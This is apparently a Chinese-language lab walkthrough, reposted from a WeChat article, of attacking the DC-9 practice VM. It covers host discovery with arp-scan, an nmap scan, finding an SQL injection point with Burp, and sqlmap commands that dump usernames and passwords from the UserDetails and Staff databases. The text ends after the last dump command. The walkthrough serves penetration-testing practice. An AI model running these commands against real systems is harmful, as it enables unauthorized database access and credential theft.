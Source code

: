  原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/H1juasLLiJOudNFCJ7O-rQ)

**主机信息**

Kali：192.168.56.113

DC9：192.168.56.112

**实验过程**

先进行主机探测，查找靶机的 IP 地址：

```
arp‐scan ‐‐interface eth1 192.168.56.1/24
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEFXBOAMTSg6iaXrCe6FZe08yeod3B1wf5sD85ic4AhAtC6qT6VxVysAicw/640?wx_fmt=jpeg)

用 nmap 对主机进行排查确定，DC9 的 IP 地址为 192.168.56.112

可以看到 DC 开放了 80 端口以及 22 端口（被过滤）

```
nmap ‐sC ‐sV ‐oA dc‐9 192.168.56.112
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEaicZzDsvTk7yhibrsYjXTkjiaSIDZrDPEyTy2s5dWDXT0ntfA1MvibSQzg/640?wx_fmt=jpeg)

所以首先从 80 端口入手，每个网页都点开看看。看到这个搜索页面感觉可以尝试下 SQL 注入

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE2e1LuiaGSlk78e2VfSfxMmmwEq6aiavMvJ0iarr65XG0dXibp7aywvaNDw/640?wx_fmt=jpeg)

这里我们用 Burp 进行尝试，发现的确存在注入点

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEBvhmJDuGhhROAPyHBW9qUfPuqrwbaRev47PMMl9lX8L7iazHxbiciciaYQ/640?wx_fmt=jpeg)

把请求信息导出为 dc9.sqlmap，接下来用 SQLmap 进行遍历

```
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEUsmnAXTJnOvIU92SDVFHPzLST2dM0glLg4XfFhMLDpaSbwbDjs276A/640?wx_fmt=jpeg)

然后接下来用 sqlmap 导出数据

```
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐‐dbs 
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐‐tables
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐T UserDetails ‐‐columns
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D users ‐T UserDetails ‐C
username,password ‐‐dump
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEdZlp9mYRLONFIXLVCeBf8ia3BAQIO6OqoicLKKVib4O1j0nuyOumiaicbRA/640?wx_fmt=png)

```
python3 sqlmap.py ‐r C:\Users\DFZ\Desktop\dc9.sqlmap ‐D Staff ‐T Users ‐C Username,Password ‐‐dump
```
